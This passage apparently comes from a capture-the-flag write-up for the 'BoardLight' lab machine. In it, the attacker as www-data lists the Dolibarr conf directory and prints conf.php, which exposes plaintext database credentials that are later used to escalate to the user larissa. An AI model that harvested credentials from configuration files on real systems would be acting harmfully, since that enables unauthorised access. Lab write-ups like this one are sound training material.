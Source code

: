 ## Privilege Escalation to larissa

By having a closer look on the `conf` directory we found `database credentials` inside `conf.php`.

```c
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ ls -la
total 56
drwxr-xr-x  2 www-data www-data  4096 May 17 00:18 .
drwxr-xr-x 79 www-data www-data  4096 Mar  4  2023 ..
-rw-r--r--  1 www-data www-data    31 Mar  4  2023 .htaccess
-rw-r--r--  1 www-data www-data  1736 May 17 00:18 conf.php
-rw-r--r--  1 www-data www-data 16394 Mar  4  2023 conf.php.example
-r--------  1 www-data www-data 16394 May 13 13:20 conf.php.old
```

```c
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

//$dolibarr_main_demo='autologin,autopass';
// Security settings
$dolibarr_main_prod='0';
$dolibarr_main_force_https='0';
$dolibarr_main_restrict_os_commands='mysqldump, mysql, pg_dump, pgrestore';
$dolibarr_nocsrfcheck='0';
$dolibarr_main_instance_unique_id='ef9a8f59524328e3c36894a9ff0562b5';
$dolibarr_mailing_limit_sendbyweb='0';
$dolibarr_mailing_limit_sendbycli='0';

//$dolibarr_lib_FPDF_PATH='';
//$dolibarr_lib_TCPDF_PATH='';
//$dolibarr_lib_FPDI_PATH='';
//$dolibarr_lib_TCPDI_PATH='';
//$dolibarr_lib_GEOIP_PATH='';
//$dolibarr_lib_NUSOAP_PATH='';
//$dolibarr_lib_ODTPHP_PATH='';
//$dolibarr_lib_ODTPHP_PATHTOPCLZIP='';
//$dolibarr_js_CKEDITOR='';
//$dolibarr_js_JQUERY='';
//$dolibarr_js_JQUERY_UI='';

//$dolibarr_font_DOL_DEFAULT_TTF='';
```